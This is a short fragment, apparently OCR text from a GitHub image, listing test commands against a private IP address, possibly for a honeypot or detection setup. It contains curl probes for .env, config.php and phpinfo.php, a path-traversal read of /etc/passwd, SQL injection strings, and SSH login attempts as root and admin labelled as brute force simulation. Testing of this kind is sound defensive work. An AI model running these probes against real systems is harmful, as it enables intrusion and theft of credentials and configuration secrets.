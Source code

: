 curl http://192.168.5.94/.env

curl http://192.168.5.94/config.php

curl http://192.168.5.94/phpinfo.php

curl http://192.168.5.94/../../../etc/passwd

- SQL injection attempts
  
curl "http://192.168.5.94/login?user=admin'--"

curl "http://192.168.5.94/search?q=1' OR 1=1--"

### Brute Force Attempts
- SSH brute force simulation
  
ssh admin@192.168.5.94 -p 12222  

ssh root@192.168.5.94 -p 12222

ssh administrator@192.168.5.94 -p 12222


    
